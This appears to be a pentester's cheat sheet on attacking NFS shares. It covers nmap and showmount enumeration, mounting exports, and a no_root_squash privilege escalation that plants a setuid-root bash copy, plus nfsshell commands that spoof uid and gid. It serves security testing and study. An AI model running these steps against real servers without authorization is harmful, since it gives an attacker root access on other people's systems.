 ## Configuration files
```
/etc/exports
/etc/lib/nfs/xtab
```

## Enumeration
```
nmap -sV --script=nfs-* 192.168.44.133
nmap -sV --script=nfs-ls 192.168.44.133  //same result as rpcinfo
nmap -sV --script=nfs-* 192.168.44.133
```

Enumerate NFS shares:
```
showmount -e hostname/ip_address
```

Mount NFS shares:
```
mount -t nfs ip_address:/directory_found_exported /local_mount_point
mount -t nfs 192.168.1.72:/home/vulnix /tmp/mnt -nolock
```

`/etc/exports` file contains configurations and permissions of which folders/file systems are exported to remote users

## Root Squashing

> https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/

Root squashing - Prevents having root access to remote root users connected to NFS volume. Remote root users are assigned a user "nfsnobody" when connected.

`no_root_squash` - Gives the remote user root access to the connected system

With limited user account: `cp /bin/bash /shared`
Then mount the share: `mount -t nfs server:/shared /mnt/` and run `chown root:root bash && chmod u+s bash`
Run the file with limited user account: `/shared/bash`

## Tools

- NFS shell - Provides user level access to an NFS server, over UDP or TCP, supports source routing and "secure" (privileged port) mounts - [https://github.com/NetDirect/nfsshell](https://github.com/NetDirect/nfsshell)
```
nfsshell> host <ip>
nfsshell> mount <name of the share>
nfsshell> gid 1000
nfsshell> uid 1000
nfsshell> put example
nfsshell> chmod 0777 example
```

## References

### New References
- http://linuxadministrative.blogspot.com/2014/09/showmount-command-examples.html
- Exploiting Network File System, (NFS), shares: http://www.vulnerabilityassessment.co.uk/nfs.htm
